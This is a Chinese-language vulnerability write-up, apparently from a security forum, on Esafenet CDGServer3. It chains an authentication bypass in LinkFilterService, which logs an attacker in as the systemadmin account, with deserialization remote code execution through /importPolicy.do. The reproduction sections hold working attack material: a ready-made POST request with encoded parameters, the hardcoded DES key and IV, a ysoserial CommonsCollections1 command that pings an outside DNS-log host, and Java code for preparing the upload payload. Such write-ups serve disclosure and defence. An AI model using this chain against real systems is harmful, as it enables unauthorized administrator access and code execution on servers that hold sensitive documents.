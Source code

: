 

# 亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析 - 先知社区

亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析

- - -

# LinkFilterService 权限绕过

## 漏洞描述

2023 年 12 月，互联网上披露亿赛通电子文档安全管理系统旧版本相关接口存在权限绕过与代码执行漏洞。攻击者可构造恶意请求绕过身份认证，结合相关功能造成远程代码执行。

## 漏洞分析

查看 web.xml，定位到接口如下  
[![](assets/1708919700-c6a08c5945a8e8170d09ca2baabc47a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144013-bc580a12-cef1-1.png)  
步入对应的 servlet-class：com.esafenet.filter.LinkFilter  
跟入代码，代码逻辑比较清晰，基本代码逻辑都在这几个方法中  
[![](assets/1708919700-be9aadc792a2058ce1516dfcf4b2d812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144146-f3ec6392-cef1-1.png)  
service 函数中，会对前端传入的参数 path、userId、cur 分别进行判断处理。此处先对 path 中是否携带有`/client/AppExamList.jsp?username=`进行判断，如果不存在则会获取到 username 的 value 值，并进行`CDGUtil.encode`函数的加密（至于这个加密函数，我们之后还会碰到），从而获取 sId，并调用`buildLinkURL`函数，根据函数名及上下文推测是用来构造 302 跳转地址的 url。  
[![](assets/1708919700-a91bb2d27e07d971f465dae35945730b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144225-0b02f92e-cef2-1.png)  
假设符合上述判断，步入`buildLinkURL`，此时传入的 path 为`/client/AppExamList.jsp?username=xxx`，对应的我们会得到 95 行构造的 url，即：`http://host:port/CDGServer3/client/AppExamList.jsp;jsessionid=sid?username=xxx`  
[![](assets/1708919700-9a02d9b9841b65b7b126ca7420b24655.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144255-1c8583ba-cef2-1.png)  
但这里获取到的 url 并没有涉及任何关于用户判断认证并且会触发 return 提前结束 service 函数，因此要保障函数不步入 if 语句。  
继续审计 service 中对其他参数的判断处理：传入的 cur 参数在被解密封装为 time 后，步入`isOverTime`函数，假如函数返回 true 那么 service 函数将提前结束  
[![](assets/1708919700-26a451044f801e7239194c599f543463.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144430-5536a680-cef2-1.png)  
`isOverTime`函数将当前时间和传入时间进行相减并除以 1000L 将单位转换为秒，若超过`exam.timeout`设定的 600s，则为超时，返回 true。  
[![](assets/1708919700-1699c2c885658684def969a2899b9923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144448-5ff53f50-cef2-1.png)  
[![](assets/1708919700-76df0379e730cb26da284719b752713d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144500-674ae5a2-cef2-1.png)  
如果未超时，函数将继续执行至`buildSessionId`  
[![](assets/1708919700-9de665bf7f37d95495d939b4b8793d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144521-73884a30-cef2-1.png)  
传入的 userId 为可控的前端参数，`userDao.findUserById`会根据传入的 userId，返回 user 对象。接着 if 语句会判断 session 中是否携带有 loginMng 的值，若为空则会调用`LoginMng.login`函数  
[![](assets/1708919700-7c6cc355657a4e888f146241675b6454.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144547-83847fe4-cef2-1.png)  
此时步入 LoginMng 类中，该类保存的是用户的登录相关字段，而上文中调用的是 loginMng 类中 login 的重载方法

```plain
public class LoginMng implements Serializable {
        ...
    private User user;
    private boolean isLogin;
    private boolean isAdmin = false;

    public LoginMng() {
    }
    public boolean login(String loginName, String password) throws Exception {
        if (loginName != null && !loginName.equals("")) {
          ...
            return this.isLogin;
        } else {
            this.isLogin = false;
            return this.isLogin;
        }
    }
  public void login(User u) {
        ...
        if (u.getUserName().equals("admin") && u.getUserId().equals("100400000001")) {
            this.setAdmin();
        } else {
            this.isAdmin = false;
        }
        this.user = u;
        this.isLogin = true;
    }
```

当传入的 userid 存在时，则会获取到 LoginMng 用户凭证，赋值到 session 中，并返回 session 会话的唯一标识符。步入`userDao.findUserById`可发现执行 sql 语句为`select * from WF_USER where USER_NAME = ?`，userid 作为传入的参数，即通过用户名查询并返回用户。

```plain
public User findUserById(String userId) throws Exception {
    User user2 = null;
        ...
    new User();
    String sql = "select * from WF_USER where USER_NAME = ? ";
    Object[] params = new Object[]{new String(userId)};
    HashMap[] maps = this.getCommonResults(sql, params);
    if (maps != null && maps.length > 0) {
        ...
        return user;
    } else {
        return null;
    }
}
```

返回的 session id 作为 sid 传入`buildLinkURL`，构造跳转地址  
[![](assets/1708919700-f10f5b6088c4a3161566bdb77fce8e16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144727-beede7c8-cef2-1.png)  
总结一下：前端可传入 cur、path、userId 三个值，path 明文为 uri 路径，用作跳转，此处可输入后台地址路径：/frame.jsp；cur 明文为时间戳，尽量往大了取，原则上是大于 600s；userId 明文为存在的用户名，亿赛通管理员用户名为 systemadmin。  
CDGUtil 加解密可以直接导入亿赛通原有的 jar 包来调用函数，能省去不少麻烦。  
[![](assets/1708919700-06ec648e656d3040fe77b48a072c0823.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144753-ce8c1344-cef2-1.png)

## 漏洞复现

明文 userid=systemadmin，cur=2099-11-11 12:12:12，path=/frame.jsp

```plain
System.out.println("userid: " + encode("systemadmin"));
System.out.println("cur: " + encode("2099-11-11 12:12:12"));
System.out.println("path: " + encode("/frame.jsp"));
```

加密处理得到密文  
[![](assets/1708919700-5a2e024271c3803b801aa0d47a46a939.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144807-d6e2ab2a-cef2-1.png)  
数据包如下：

```plain
POST /CDGServer3/LinkFilterService HTTP/1.1
Host: 

path=BOFGGPFBFIFPBHFMGKGi&userId=GCGHGAGGFAFHFGFCFEFPFD&cur=KKPCJHNBBFBFFHOFBKENGDGFNGIBLBLBCJCPCP
```

成功进入后台  
[![](assets/1708919700-628e39011f19f6d4597cb039d1274c04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144846-ee2f8b2c-cef2-1.png)

# 后利用

前段时间狂爆的反序列化漏洞就不再提了，基本都是前台 xstream 反序列化牵扯出的一系列接口。这里提一个后台 rce 接口：`/importPolicy.do`  
文件上传接口获取到 file 文件，获取到文件流后，对数据进行`CDGUtil.encode`加密，密文将传入`byteToObject`函数  
[![](assets/1708919700-a4bb98d84e65ed85789965d91a25d63b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144933-09c2c444-cef3-1.png)  
`byteToObject`中是标准的反序列化代码，此时 bs 可控，rce 近在咫尺。需要解决的就是`CDGUtil.encode`的加密  
[![](assets/1708919700-c0870f774089b4d1cc146b873381de3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144951-14f9463a-cef3-1.png)  
步入`CDGUtil.encode`，加密方式是一段 DES/CBC/PKCS5Padding 模式的加密，key 与 iv 均为 esafenet。  
[![](assets/1708919700-5f69d9dacfe8c294b7794ab916a0a3b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145009-1f5f2dba-cef3-1.png)  
后端处理文件的过程：文件传入->DES 加密->反序列化，因此 rce 的思路就很明确了：生成序列化文件->使用 DES 解密->上传文件，亿赛通还有 commons-collections3.1 依赖，此处使用 cc1 来进行 rce。

## 漏洞复现

使用 yso 生成 cc1

```plain
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'ping zkilvkinpf.dgrh3.cn' >cc1.ser
```

使用如下代码对 cc1.ser 进行 des 解密，并输出至 1.txt

```plain
import com.esafenet.ta.policy.utils.EncryptUtil;
import com.esafenet.util.CodeDecoder;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.util.Base64;

import static com.esafenet.util.CDGUtil.decode;
import static com.esafenet.util.CDGUtil.encode;
import org.apache.commons.io.FileUtils;
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;
import org.w3c.dom.Document;
import sun.misc.BASE64Decoder;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class CDGdecode {
    public static void main(String[] args) throws Exception {
        byte[] bytes = desEncrypt("/Users/cc1.ser");
        File file = new File("1.txt");
        FileOutputStream fileOutputStream = new FileOutputStream(file);
        fileOutputStream.write(bytes);
        System.out.println(new String(bytes));
    }
    public static byte[] desEncrypt(String filepath) throws Exception{
        File file = new File(filepath);
        byte[] filebyte = new byte[(int) file.length()];
        FileInputStream fileInputStream = new FileInputStream(file);
        fileInputStream.read(filebyte);
        Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
        DESKeySpec dks = new DESKeySpec("esafenet".getBytes());
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        IvParameterSpec iv = new IvParameterSpec("esafenet".getBytes());
        cipher.init(Cipher.ENCRYPT_MODE,securekey,iv);
        byte[] bytes = cipher.doFinal(filebyte);
        String s = new String(bytes);
        System.out.println(s);
        return bytes;
    }
}
```

使用 yakit 将解密后输出的文件传入接口中  
[![](assets/1708919700-3a58c209303fbb937c2f20c90cf542e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145206-6576cbe6-cef3-1.png)  
此时服务器成功执行命令，实现 rce  
[![](assets/1708919700-2e867142b95856f81d95208c718ced85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145220-6d474bac-cef3-1.png)
